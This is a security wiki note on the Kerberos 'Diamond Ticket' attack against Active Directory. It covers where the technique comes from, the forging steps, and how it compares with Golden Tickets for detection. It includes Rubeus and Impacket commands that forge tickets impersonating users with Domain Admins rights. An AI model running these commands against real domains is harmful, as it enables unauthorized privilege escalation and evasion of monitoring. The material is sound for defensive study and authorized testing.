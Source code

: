 # Diamond-Tickets

Probably originating from Blackhat 2015 by [Tal Be’ery](https://twitter.com/talbeerysec) and [Michael Cherny](https://twitter.com/chernymi). In their [talk](https://www.youtube.com/watch?v=7qbSFYVQJ7A), and subsequent [brief](https://www.blackhat.com/docs/eu-15/materials/eu-15-Beery-Watching-The-Watchdog-Protecting-Kerberos-Authentication-With-Network-Monitoring-wp.pdf), '*WATCHING THE WATCHDOG: PROTECTING KERBEROS AUTHENTICATION WITH NETWORK MONITORING*' - [TrustedSec - Diamond in the ruff Blog](https://www.trustedsec.com/blog/a-diamond-in-the-ruff/) - they termed an attack 'Diamond PAC Attack'
1. Requesting a TGT without a Privilege Attribute Certificate (PAC)
2. Ensuring the service account for the service that was to be accessed does not have the ‘[NA’ bit set in its UserAccountControl (UAC) attribute](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/dd302fd1-0aa7-406b-ad91-2a6b35738557)
3. Forging a PAC and signing it with the **KRBTGT** key
4. Injecting it into the resulting Service Ticket (ST) by including it in the `enc_authorization_data` section of the TGS-REQ

[Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond) and [TrustedSec - Diamond in the ruff Blog](https://www.trustedsec.com/blog/a-diamond-in-the-ruff/)  - *"When forging tickets, before [November 2021 updates](https://msrc.microsoft.com/update-guide/releasenote/2021-Nov), the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets."* - Diamond tickets work, but Diamond PAC attack does not.

A Diamond ticket are a TGT which can be used to access any service as any user. Forged by modifying the fields of a legitimate TGT that was issued by a DC.
- Unlike [[Golden-Tickets]], require access to the AES256 key
- Request a TGT
- Decrypting the TGT with krbtgt hash
- Modifying the desired fields of the ticket
- Re-Encrypting

Diamond tickets are similar to [[Golden-Tickets]], but due to Golden tickets been forged offline they are detectable:
- Look for TGS-REQs that have no corresponding AS-REQ.
- Look for TGTs that have silly values, such as Mimikatz's default 10-year lifetime.
- Weird requests to access resource from where an identity is not tied to resource
Whereas Diamond Tickets are better due to:
- TGS-REQs will have a preceding AS-REQ.
- The TGT was issued by a DC which means it will have all the correct details from the domain's Kerberos policy. Even though these can be accurately forged in a golden ticket, it's more complex and open to mistakes.

Use [[Rubeus-Cheatsheet]]
```powershell
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid
# Example - Hacker recipes
Rubeus.exe diamond /domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
# Example - Hacktricks
.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512
# Explaination from Hacktricks
# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash. 
```

or [[Impacket-Cheatsheet]]
```python
ticketer.py -request -domain 'DOMAIN.FQDN' -user 'domain_user' -password 'password' -nthash 'krbtgt/service NT hash' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' -user-id '1337' -groups '512,513,518,519,520' 'baduser'
```

## References

[Hacktricks - Diamond Tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket)
[Hacker Recipes Diamond Tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond) 
[TrustedSec CoAuthored with Charlie Clark- Diamond in the ruff Blog](https://www.trustedsec.com/blog/a-diamond-in-the-ruff/)
[Charlie Clark - CoAuthor of Diamond in the Ruff Trusted Sec](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)